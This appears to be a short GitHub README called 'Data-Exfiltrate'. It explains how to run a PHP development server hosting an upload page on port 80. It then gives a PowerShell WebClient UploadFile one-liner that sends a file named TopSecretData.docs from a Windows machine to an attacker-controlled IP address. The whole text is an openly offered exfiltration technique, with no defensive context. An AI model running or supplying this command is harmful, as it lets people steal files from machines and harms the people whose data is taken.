


# Data-Exfiltrate
Using PHP upload page and Windows PowerShell to exfiltrate data

In directory where the upload.php file is hosted, start PHP development server on port 80.
```
php -S 0.0.0.0:80
```


On the source windows machine with the data files you want to upload execute the following powershell command to send the destination URL the source file path and name.
```powershell
powershell $(New-Object System.Net.WebClient).UploadFile('http://192.168.255.37/upload.php', 'C:\users\SkippyPeanut\Downloads\TopSecretData.docs');
```


Data Exfiltration.
